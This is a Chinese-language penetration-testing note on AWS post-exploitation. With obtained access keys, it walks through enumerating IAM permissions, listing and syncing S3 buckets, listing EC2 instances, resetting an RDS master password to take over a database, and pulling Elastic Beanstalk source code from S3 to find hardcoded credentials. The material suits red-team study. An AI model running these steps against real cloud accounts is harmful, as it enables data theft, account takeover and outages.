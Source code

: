 #### 枚举 IAM 权限
  	https://github.com/andresriancho/enumerate-iam
	使用enumerate-iam 枚举与 AWS 凭证集关联的权限
	>git clone git@github.com:andresriancho/enumerate-iam.git
	>pip install -r requirements.txt
	>./enumerate-iam.py --access-key AKIA... --secret-key StF0q...
	2019-05-10 15:57:58,447 - 21345 - [INFO] Starting permission enumeration for access-key-id "AKIA..."
	2019-05-10 15:58:01,532 - 21345 - [INFO] Run for the hills, get_account_authorization_details worked!
	2019-05-10 15:58:01,537 - 21345 - [INFO] -- {
	    "RoleDetailList": [
	        {
	            "Tags": [],
	            "AssumeRolePolicyDocument": {
	                "Version": "2008-10-17",
	                "Statement": [
	                    {
	...
	2019-05-10 15:58:26,709 - 21345 - [INFO] -- gamelift.list_builds() worked!
	2019-05-10 15:58:26,850 - 21345 - [INFO] -- cloudformation.list_stack_sets() worked!
	2019-05-10 15:58:26,982 - 21345 - [INFO] -- directconnect.describe_locations() worked!
	2019-05-10 15:58:27,021 - 21345 - [INFO] -- gamelift.describe_matchmaking_rule_sets() worked!
	2019-05-10 15:58:27,311 - 21345 - [INFO] -- sqs.list_queues() worked!
	一旦您有权访问云帐户，您需要弄清楚您的用户有权与哪些资源进行交互。 AWS 有数百种服务，因此我们无法涵盖所有服务，但您至少应该熟悉基本服务
![image](/assets/Pentest_Note/master/img/908.png)
#### S3 存储桶
	我确定您听说过 S3 存储桶，但如果您没有听说过，它是一种用于存储文件和其他对象的公共云存储资源。 作为攻击者，这绝对是您想要寻找的东西，因为它有可能存储敏感数据。
	列出云环境中的所有 S3 存储桶
	> aws s3api list-buckets
	在某些情况下，您可能有权访问 S3 存储桶，但缺少列出 S3 存储桶名称所需的权限或策略。在这种情况下，您必须能够猜测或暴力破解您有权访问的 S3 存储桶的名称。
	知道 S3 存储桶的名称后，您可以通过发出以下 CLI 命令查看其内容：
	> aws s3 ls YOUR_BUCKET
	这将列出存储桶中的所有文件和文件夹。要下载文件，您可以发出“cp”命令，如下所示：
	> aws s3 cp s3://YOUR_BUCKET/file.txt file.txt
	如上所示，我们正在将文本文件“file.txt”下载到本地系统。
	您还可以使用以下命令下载整个 S3 存储桶：
	> aws s3 sync s3://YOUR_BUCKET
#### 虚拟机
	AWS 有多种类型的虚拟机，但最流行的一种是弹性计算云 (EC2)。您可以根据需要使用 Amazon EC2 启动任意数量的虚拟服务器、配置安全性和网络以及管理存储。
	> aws ec2 describe-instances
	此命令返回 EC2 实例列表及其相关信息，例如其 IP 地址、instanceid、名称等。 以上返回大量信息，但您可以使用内置 JSON 解析器通过 --query 参数过滤输出
	> aws ec2 describe-instances --query "Reservations[*].Instances[*].{PublicIP:PublicIpAddress,Name:Tags[?Key=='Name']|[0].Value,Status:State.Name}"
#### 数据库
	作为攻击者获得公司数据库的访问权限是一座金矿。 数据库包含各种有趣的东西，例如用户名和密码。 根据技术要求，一个环境中可能运行多种不同类型的数据库
![image](/assets/Pentest_Note/master/img/909.png)

	AWS 提供处理一切的服务，但我们将专注于托管 MySql 数据库的“Amazon RDS”服务。 要获取正在运行的数据库的列表，请运行以下命令：
	> aws rds describe-db-instances
	返回的字段之一是地址和root用户。如果该地址可以外联，您可以将其与 root 用户一起使用来发起暴力攻击。
	根据您的权限，您可能能够重置主密码。这可以通过以下命令完成：
	> aws rds modify-db-instance --db-instance-identifier INSTANCE_NAME --master-user-password NEWPASSWORD --apply-immediately
	重置主密码后，您可以登录数据库并下载所有内容。但是，更改 root 密码肯定会引发警报，并且您可能会破坏使用该帐户的任何应用程序，因此在这样做时要小心。
#### Elastic BeanStalk 
	AWS Elastic Beanstalk (EBS) 是一种易于使用的服务，用于部署和扩展使用 Java、. NET，PHP。在熟悉的服务器（如 Apache、Nginx、Passenger 和 IIS）上运行 Node.js、Python、Ruby、Go 和 Docker。这意味着我们可以使用 EBS 通过单击按钮或 shell 命令轻松部署应用程序。 AWS 自动化了整个部署过程。
	通常，您会看到部署到 beanstalk 环境的前端或 API。可以通过发出以下 CLI 命令来定位这些环境：
	> aws elasticbeanstalk describe-environments
	注意返回的“EndpointURL”变量。 这将有一个指向 EBS 托管的应用程序的公共 url。 拥有此端点后，您可以对该应用程序发起进一步的攻击
![image](/assets/Pentest_Note/master/img/910.png)

	EBS 的另一个有趣之处在于，它将应用程序从 S3 存储桶中包含的源代码部署到 EC2 实例。 当我们按下部署按钮时，它会获取我们的源代码并将其保存到 S3 存储桶中，然后将其从该文件部署到虚拟机。 这意味着我们应该能够在 S3 存储桶中找到所有 EBS 应用程序的源代码。 任何有权访问该 S3 存储桶的人也将有权访问所有 EBS 应用程序的源代码
	> aws s3 ls  可以查看是否存在名为 elasticbeanstalk 的 S3 存储桶
	> aws s3 ls elasticbeanstalk-XXXX 
	在该 s3 存储桶上发出 ls 命令，您应该会看到一堆 .zip 文件。
	这些 zip 文件包含部署到 beanstalk 的应用程序的源代码。 下一步是下载这些文件并分析硬编码凭据和漏洞的源代码